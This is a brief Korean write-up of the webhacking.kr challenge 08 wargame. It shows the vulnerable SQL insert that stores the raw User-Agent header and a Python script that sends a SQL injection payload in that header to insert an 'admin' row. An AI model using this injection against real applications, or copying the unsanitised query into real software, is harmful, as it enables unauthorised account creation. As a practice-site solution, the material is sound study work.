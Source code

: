 ================================================================================================================
[webhacking.kr] 08
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="User-Agent: joizel','2.2.2.2','admin');#",arrowhead="normal"];
        step3 -> step2[label="Add user",arrowhead="normal"];
    }

|


server 소스 분석
================================================================================================================

- PHP
- GET 파라미터: HTTP_USER_AGENT

.. code-block:: sql

    insert into lv0(agent,ip,id) 
    values('$_SERVER[HTTP_USER_AGENT]','$ip','guest')

|

사용자 추가
================================================================================================================

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-08/index.php"
    headers = {
        "User-Agent":"joizel','2.2.2.2','admin');#"
    }
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.get(url, headers = headers, cookies=cookies, verify=False)

    print r.content

|
